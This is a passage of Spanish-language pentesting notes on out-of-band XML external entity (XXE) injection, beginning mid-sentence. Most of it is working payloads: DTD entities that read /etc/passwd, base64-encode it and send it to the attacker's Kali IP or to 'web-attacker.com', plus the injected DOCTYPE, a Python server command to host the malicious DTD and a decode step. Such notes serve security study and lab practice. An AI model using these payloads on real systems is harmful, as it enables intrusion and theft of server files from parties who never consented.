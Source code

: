 una entidad `file` que obtenga el `/etc/passwd` en base64, esto para que nos lo pase como parametro por la URL a nuestra maquina atacante.

```xml
<!ENTITY % poc "<!ENTITY &#x25; xxe SYSTEM 'http://<IP KALI>:<PUERTO>/value=?%file;'>">
```

Creamos una entidad `poc` que tiene otra entidad llamada `xxe` donde realiza una peticion GET a nuestra maquina pasando un parametro `value` por la URL que sera la entidad file `%file` que contiene el /etc/passwd en base64.

>[!note]
>cuando se nombre una entidad, dentro de otra entidad el porcentaje de la segunda entidad tiene que ir en Hexadecimal. (`&#x25;  == %`)

Compartimos el archivo **data.xml** por un servidor en python:

```python
python -m SimpleHTTPServer
```

Y solicitamos el archivo **data.xml** desde la pagina web:

```xml
<?xml version="1.0" encoding="UTF-8"?> 
<!DOCTYPE XXE [
<!ENTITY % remote SYSTEM "http://<IP-KALI>:<PUERTO>/data.xml"
%remote;
%poc;
%xxe;
]>
```

primero llamamos la entidad `remote`, despues la entidad `poc` del archivo **data.xml** y despues de `xxe`.

Al mandar este XXE vamos a ver en nuestro servidor en python que se realiza una peticion GET de la pagina web donde se manda el parametro value con el contenido del `/etc/passwd` en base64.

Realizamos el siguiente comando para ver el contenido en texto claro:

```bash
echo "/etc/passwd en base64" | base64 -d; echo
```


otra forma es la siguiente **data.xml**:

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">  
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>">  
%eval;  
%exfiltrate;
```

Este DTD realiza los siguientes pasos:

-   Define una entidad de parámetro XML llamada `file`, que contiene el contenido del `/etc/passwd` archivo.
-   Define una entidad de parámetro XML llamada `eval`, que contiene una declaración dinámica de otra entidad de parámetro XML llamada `exfiltrate`. La `exfiltrate` entidad se evaluará mediante una solicitud HTTP al servidor web del atacante que contiene el valor de la `file` entidad dentro de la cadena de consulta URL.
-   Utiliza la `eval` entidad, lo que provoca `exfiltrate` que se realice la declaración dinámica de la entidad.
-   Utiliza la `exfiltrate` entidad, por lo que su valor se evalúa solicitando la URL especificada.
